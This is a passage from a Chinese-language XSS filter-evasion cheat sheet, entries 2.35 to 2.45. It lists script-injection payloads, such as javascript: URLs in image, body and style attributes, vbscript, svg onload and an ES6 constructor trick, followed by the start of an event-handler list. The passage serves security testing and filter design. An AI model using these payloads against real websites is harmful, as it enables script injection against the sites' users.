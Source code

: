 </TITLE><SCRIPT>alert(“XSS”);</SCRIPT>

2.35.    INPUT image
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>

2.36.    BODY image
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>

2.37.    IMG Dynsrc
<IMG DYNSRC=”javascript:alert(‘XSS’)”>

2.38.    IMG lowsrc
<IMG LOWSRC=”javascript:alert(‘XSS’)”>

2.39.    List-style-image
处理嵌入的图片列表是很麻烦的问题。由于JavaScript指令的原因只能在IE渲染引擎下有效。不是一个特别有用的跨站脚本攻击向量:

<STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS</br>

2.40.    图片中引用VBscript
<IMG SRC=’vbscript:msgbox(“XSS”)’>

2.41.    Livescript (仅限旧版本Netscape)
<IMG SRC=”livescript:[code]">

2.42.    SVG对象标签
<svg/onload=alert('XSS')>

2.43.    ECMAScript 6
Set.constructor`alert\x28document.domain\x29```

2.44.    BODY标签
这个方法不需要使用任何例如"javascript:"或"<SCRIPT..."语句来完成XSS攻击。Dan Crowley特别提醒你可以在等号前加入一个空格("onload=" != "onload ="):

<BODY ONLOAD=alert('XSS')>

2.45.    事件处理程序
在XSS攻击中可使用以下事件（在完稿的时候这是网上最全的列表了）。感谢ReneLedosquet的更新。

1.    FSCommand() (攻击者当需要在嵌入的Flash对象中执行时可以使用此事件)

2.    onAbort() (当用户中止加载图片时)

3.    onActivate() (当对象激活时)

4.    onAfterPrint() (用户打印或进行打印预览后触发)

5.    onAfterUpdate() (从数据源对象更新数据后由数据对象触发)

6.    onBeforeActivate() (在对象设置为激活元素前触发)

7.    onBeforeCopy() (攻击者在选中部分拷贝到剪贴板前执行攻击代码-攻击者可以通过执行execCommand("Copy")函数触发)

8.    onBeforeCut() (攻击者在选中部分剪切到剪贴板前执行攻击代码)

9.    onBeforeDeactivate() (在当前对象的激活元素变化前触发)

10.  onBeforeEditFocus() (在一个包含可编辑元素的对象进入激活状态时或一个可编辑的对象被选中时触发)
